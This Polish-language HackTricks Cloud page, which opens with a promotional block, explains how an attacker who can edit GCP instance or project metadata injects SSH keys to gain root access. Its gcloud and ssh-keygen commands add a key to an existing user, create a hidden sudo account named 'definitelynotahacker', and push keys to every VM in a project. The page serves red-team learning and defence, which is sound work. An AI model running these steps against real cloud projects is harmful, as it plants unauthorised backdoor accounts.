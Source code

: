 # GCP - Dodawanie niestandardowych metadanych SSH

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znacznych ryzyk bezpieczeństwa, jeśli atakujący uzyska wymagane uprawnienia**.

### **Dodawanie kluczy SSH do niestandardowych metadanych**

Na platformie GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment dla Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Istotnym elementem jest [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` istniejącego użytkownika lub potencjalnie utworzy nowego użytkownika z uprawnieniami `sudo`, w zależności od formatu klucza. Atakujący będzie w stanie skompromitować hosta.

### **Dodaj klucz SSH do istniejącego uprzywilejowanego użytkownika**

1. **Sprawdź Istniejące Klucze SSH na Instancji:**
- Wykonaj polecenie opisujące instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednią sekcję w wyniku znajdziesz w `metadata`, szczególnie pod kluczem `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCJA] --zone [STREFA]
```
- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielone dwukropkiem.

2. **Przygotuj plik tekstowy na potrzeby metadanych klucza SSH:**
- Zapisz szczegóły nazw użytkowników i odpowiadających im kluczy SSH do pliku tekstowego o nazwie `meta.txt`. Jest to istotne dla zachowania istniejących kluczy podczas dodawania nowych.

3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada nazwie użytkownika docelowego.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj Metadane Klucza SSH Instancji:**
- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCJA] --metadata-from-file ssh-keys=meta.txt
```

5. **Zaloguj się do Instancji, Korzystając z Nowego Klucza SSH:**
- Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście użytkownika docelowego (`alice` w tym przykładzie).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, który otrzyma uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest poszerzenie zakresu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. Ten sposób pozwala na dostęp SSH do dowolnej instancji w ramach projektu, która nie zablokowała wyraźnie projektowych kluczy SSH. Oto zwięzły przewodnik:

1. **Zastosuj Klucze SSH na Poziomie Projektu:**
- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z pliku `meta.txt` do metadanych projektu. Ta czynność zapewnia, że klucze SSH są rozpoznawane we wszystkich maszynach wirtualnych w projekcie, chyba że instancja ma włączoną opcję "Zablokuj projektowe klucze SSH".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do Instancji Korzystając z Kluczy na Poziomie Projektu:**
- Dzięki projektowym kluczom SSH możesz łączyć się przez SSH z dowolną instancją w ramach projektu. Instancje, które nie blokują projektowych kluczy, zaakceptują klucz SSH, umożliwiając dostęp.
- Bezpośredni sposób na połączenie się przez SSH z instancją to użycie polecenia `gcloud compute ssh [INSTANCJA]`. Polecenie to używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu do próby dostępu.


# Referencje
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
